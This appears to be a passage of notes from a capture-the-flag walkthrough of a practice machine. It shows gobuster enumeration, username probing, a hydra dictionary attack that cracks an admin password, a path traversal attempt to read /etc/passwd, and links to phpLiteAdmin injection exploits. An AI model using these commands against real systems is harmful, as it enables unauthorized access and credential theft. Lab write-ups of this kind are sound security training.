 - info.php
	- PHP Info page
- /department/
	- Land on /department/login.php - gobuster
	- In the code of the page there is a comment `<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->`


- Running Gobuster for department directory
```bash
gobuster dir -u http://10.10.10.43/department/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x html,php,txt,xml
,sh,js -o department.gob

/files                (Status: 301) [Size: 321] [--> http://10.10.10.43/department/files/]
/header.php           (Status: 200) [Size: 670]
/footer.php           (Status: 200) [Size: 51]
/login.php            (Status: 200) [Size: 1560]
/index.php            (Status: 200) [Size: 68]
/css                  (Status: 301) [Size: 319] [--> http://10.10.10.43/department/css/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/manage.php           (Status: 302) [Size: 0] [--> login.php]
```

- When submitting `admin1:password` the form returns `invalid username`
- When submitting `admin:password` the form returns `Invalid Password!`
- This means we could perform a dictionary attack. We already know the username value `admin`
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form '/department/login.php:username=admin&password=^PASS^:Invalid Password!' -f -vV

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```
- The credentials `admin:1q2w3e4r5t` logs in

- Navigating to http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt presents a message
```bash
-   Have you fixed the login page yet! hardcoded username and password is really bad idea!
-   check your serect folder to get in! figure it out! this is your challenge
-   Improve the db interface.
    ~amrois**
```

- Test cases
	- LFI
		- http://10.10.10.43/department/manage.php?notes=files/../../../../../etc/passwd - FAILED
	- http://10.10.10.43/department/manage.php?notes=dirs/ninevehNotes.txt - Returns error message: `Warning:  include(dirs/ninevehNotes.txt): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line **31**  
  
**Warning**:  include(): Failed opening 'dirs/ninevehNotes.txt' for inclusion (include_path='.:/usr/share/php') in **/var/www/html/department/manage.php** on line **31**`

### 443/tcp
- Software
	- Apache 2.4.18
	- phpLiteAdmin v1.9
		- [phpLiteAdmin - 'table' SQL Injection](https://www.exploit-db.com/exploits/38228)
		- [PHLiteAdmin 1.9.3 - Remote PHP Code Injection](https://www.exploit-db.com/exploits/24044)
